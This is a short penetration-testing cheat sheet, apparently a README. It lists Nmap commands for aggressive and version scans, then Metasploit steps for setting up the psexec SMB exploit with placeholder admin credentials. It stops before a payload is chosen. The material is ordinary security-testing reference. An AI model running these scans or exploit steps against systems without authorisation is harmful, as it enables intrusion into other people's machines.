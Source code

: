 ## nmap

Run an aggressive Nmap scan (scan, OS fingerprint, version scan, and NSE scripts) and save output to a file for future reference

```
$ sudo nmap -A target --reason -o file
```

Scan specific port(s) on target

```
$ sudo nmap -p port(s) target --reason
```

Perform a version scan on specific port(s)

```
$ sudo nmap -sV -p port(s) target --reason
```

## Metasploit

Steps to set up an exploit/payload combo

Launch Metasploit

```
$ msfconsole
```

Search for an exploit matching keyword

```
msf > search keyword type:exploit
```

Use a particularly stable exploit

```
msf > use exploit/windows/smb/psexec
```

Set the SMB User

```
msf > set SMBUser [ADMIN_USER]
```

Set the SMB Password

```
msf > set SMBPass [ADMIN PASS]
```

Set the SMB Domain

```
msf > set SMBDomain [Windows Domain]
```

Set the Exploit Payload
